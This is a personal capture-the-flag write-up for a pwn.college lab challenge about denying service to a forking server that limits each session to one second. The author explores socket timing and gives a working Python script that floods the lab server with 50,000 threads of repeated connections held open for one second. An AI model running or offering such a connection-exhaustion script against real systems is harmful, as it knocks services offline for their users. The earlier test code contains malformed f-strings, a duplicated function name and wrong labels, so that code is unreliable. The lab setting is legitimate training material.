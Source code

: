 # Problem statement:


The client at 10.0.0.3 is communicating with the server at 10.0.0.2 on port 31337. Deny this service.

This time the server forks a new process for each client connection, and limits each session to 1 second.

## Notes:
- Unlike DoS 2, the 1s timeout makes it easier to exhaust our resources than the server's unless we time things carefully.
- It was taking me an embarrassingly long amount of time to figure out the right timing just using a bash script, so I went and looked at the code
  https://github.com/pwncollege/intro-to-cybersecurity-dojo/blob/main/intercepting-communication/dos-3/run
- As the problem statement suggests, the key is the timeout. Looking at the source code, it is so simple that the only other variable to play around with is sending data.
  I decided to combine sending data + delays to understand how it actually behaves

### Understanding timeout's behaviour
  I tested all edge cases around a 1s timeout in the code below: 
    - No delay (As a baseline, even though we know this doesn't work. Otherwise, our solution for DoS 2 would be enough)
    - <1s delay
    - 1s delay
    - >1s delay (Even if the problem statement says 1s timeout, it's worth seeing how it behaves)

  What I noticed was:
  - No matter what combination of minuscule delays between when the connection is established and the first message sent, or in between messages, the third message always returns an error
     - The above means the server only receives one message and resets the connection (as we can see in the code) and probably means the second message is sent on our end but never delivered, and our OS becomes aware of the connection being closed in the third message (Broken pipe error, socket itself still open on our end)
     - The rest of messages aren't even sent on our end (Bad file descriptor error, now the socket is closed).
     - We can maximize the time the connection is open on the server by having exactly a 1s delay before sending the first message, although I thought this case would be handled the same as > 1s.
     
```
    import socket
    from time import sleep, time

    host = '10.0.0.2'
    port = 31337

    # Connect; send data right away in loop
    def test_immediate():
        s = time() # track start time
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))
        for i in range(0, 2):
            try:
                client.sendall(b"A" * 1024)
                print(f"\t Sent data in test_immediate()")
            except Exception as e:
                f = time()
                print(f"{e} || After {f - s} seconds")
                client.close()
        f = time()
        print(f"FINISHED || After {f - s} seconds")

    # Connect; delay < 1s; send, delay < 1s in loop
    def test_sleep2(job_id):
        s = time() # track start time
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))
        sleep(0.9) 
        for i in range(0,2):
            try:
                client.sendall(b"A" * 1024)
                print(f"\t {Sent data in test_sleep1()")
                sleep(0.9)
            except Exception as e:
                f = time()
                print(f"{e} || After {f - s} seconds")
                client.close()
        f = time()
        print(f"FINISHED || After {f - s} seconds")

    # Connect; delay = 1s; send, delay = 1s in loop
    def test_sleep1(job_id):
        s = time() # track start time
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))
        sleep(1) 
        for i in range(0,2):
            try:
                client.sendall(b"A" * 1024)
                print(f"\t {Sent data in test_sleep1()")
                sleep(1)
            except Exception as e:
                f = time()
                print(f"{e} || After {f - s} seconds")
                client.close()
        f = time()
        print(f"FINISHED || After {f - s} seconds")

    # Connect; delay > 1s; send, delay > 1s in loop
    def test_sleep2(job_id):
        s = time() # track start time
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))
        sleep(1.5) 
        for i in range(0,2):
            try:
                client.sendall(b"A" * 1024)
                print(f"\t {Sent data in test_sleep1()")
                sleep(1.5)
            except Exception as e:
                f = time()
                print(f"{e} || After {f - s} seconds")
                client.close()
        f = time()
        print(f"FINISHED || After {f - s} seconds")

    
```

## Solution:
  - Now that we know how to maximize the server's busy time with one connection, we can use threads to establish a bunch of connections in parallel.
  - I started with 500, then kept adding 0's. 
  - I also noticed based on the logs that my threads were chunking the processes spawned and child PIDs were being recycled, so instead of just using a thread for a single connection I decided to restart connections in the threads myself and  to save on fork() calls.
  - All the above to say, using 50k threads to connect 50k times in each is overkill, but it doesn't make sense to optimize more.
  - To run the code below and get the flag cleanly, redirect stdout and stderr:
    - `python test_timing.py > sockets.log 2> sockets_err.log`
  
```
import socket
from time import sleep, time
import threading

host = '10.0.0.2'
port = 31337

def test_sleep1(job_id):
    for i  in range(0, 50000):
        s = time()
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))
        sleep(1)
        for i in range(0,2): # just 1 send should be enough really
            try:
                client.sendall(b"A" * 1024)
                print(f"\t {[job_id]}Sent data on test_sleep1()")
                sleep(1)
            except Exception as e:
                f = time()
                print(f"{e} || After {f - s} seconds")
                client.close()

    f = time()
    print(f"FINISHED || After {f - s} seconds")

threads = []

for i in range(0, 50000):
    t = threading.Thread(target=test_sleep1, args=(i,))
    threads.append(t)

for t in threads:
    t.start()

for t in threads:
    t.join()
```
